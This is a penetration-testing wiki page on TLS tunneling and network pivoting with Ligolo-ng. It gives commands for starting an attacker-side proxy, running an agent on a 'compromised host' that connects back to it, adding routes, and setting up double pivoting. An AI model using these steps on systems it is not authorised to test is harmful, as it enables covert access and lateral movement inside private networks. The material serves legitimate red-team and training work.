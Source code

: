```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - Technique T1572
---
```


# TLS Tunneling (Ligolo-ng)

## Theory

[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) (Golang) is a network pivoting tool that allows us to establish tunnels from a **reverse TCP/TLS** connection using a **tun interface** (without the need of SOCKS).&#x20;

It utilizes a local proxy server and remote agents to make process tunneling from remote hosts simple and easy to manage. It has features other tools lack, such as building a network interface in the system userland that does not require elevated privileges to establish and **encrypt VPN tunneling**.&#x20;

{% hint style="info" %}
Using ligolo-ng, we can perform SYN scan or send ICMP packets trought the created interface. (in contrast with SOCKS pivoting techniques like with [Chisel](portfwd.md#chisel) or [SSH](portfwd.md#ssh-tunneling)).
{% endhint %}

## Practice

{% tabs %}
{% tab title="Using Ligolo-ng" %}
{% hint style="info" %}
Before using it, you should first [Setup Ligolo-ng](tls-tunneling-ligolo-ng.md#setup).
{% endhint %}

First, start the proxy server on the Attacking Host or Jump Box:

```bash
# Use in self-signed mode
# if -laddr is not specified, default is 0.0.0.0:11601 
./proxy -selfcert -laddr 0.0.0.0:<LISTENING_SVR_PORT>

# Use a custom certificate
./proxy -certfile <cert.pem> -keyfile <key.pem>
```

On the compromised host, after uploading the agent, we use the following command:

```bash
# Connect if server is in self-signed mode
./agent -connect <LIGOLO_SVR_IP>:<LISTENING_SVR_PORT> -ignore-cert

# Connect
./agent -connect <LIGOLO_SERVER_IP>:<SRV_LISTENING_PORT>
```

When the agent connect back to the server, we must enumerate its network as follow:

```bash
# Choose the agent
ligolo-ng » session

# Enumerate network
[Agent : pwned@target] » ifconfig
[...]
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:86:dd:bd              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 10.10.10.63/24                 │
└──────────────┴────────────────────────────────┘
```

Take note of interesting agent interfaces that may be use for pivoting, and add the route on the proxy/relay server. In this example we'll do as follow

```bash
# Linux
# With ligolo the interface name, replace if different
$ sudo ip route add 10.10.10.0/24 dev ligolo

# Windows
> netsh int ipv4 show interfaces

Idx     Mét         MTU          État                Nom
---  ----------  ----------  ------------  ---------------------------
 25           5       65535  connected     ligolo
   
> route add 10.10.10.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```

Finally, start the tunnel on the ligolo proxy server:

```bash
[Agent : pwned@target] » start

# OR

[Agent : pwned@target] » tunnel_start --tun ligolo
```

Done ! We can now access the `10.10.10.0/24` agent network from the proxy server.
{% endtab %}

{% tab title="Setup" %}
### All Versions

[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) fisrt need to be configured. We need to create a tun interface on the Proxy Server (Attacking Host, or Jumb Box):

```bash
# Linux
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up

# Windows
# You need to download the Wintun driver and place the "wintun.dll" in the same folder as Ligolo (make sure you use the right architecture).
# https://www.wintun.net/
```

### Versions ≥ 0.46

Alternatively, on **Ligolo-ng >= v0.6**, you can now use the `interface_create` command to create a new interface! No need to use ip tuntap!

```sh
ligolo-ng » interface_create --name "ligolo"
```
{% endtab %}
{% endtabs %}



{% hint style="info" %}
To perform **double pivoting** with ligolo-ng, we can add a listener on any agent. For example, if Agent2 only has access to Agent1 and we want to proxy its traffic.

We must add a listener on Agent1 from Ligolo Server:

```bash
# Where 11601 is the Ligolo LISTENING_SVR_PORT
# And 172.16.5.15:4455 the Agent1 listening IP and Port
[Agent : pwned@Agent1] » listener_add –addr 172.16.5.15:4455 –to 127.0.0.1:11601
```

Then, we can join Agent2 as follow

```powershell
# Where 172.16.5.15:4455 is the Agent1 listening IP and Port
.\agent.exe -connect 172.16.5.15:4455 [-ignore-cert]
```
{% endhint %}

## Resources

{% embed url="https://github.com/nicocha30/ligolo-ng/tree/v0.4.4#building--usage" %}
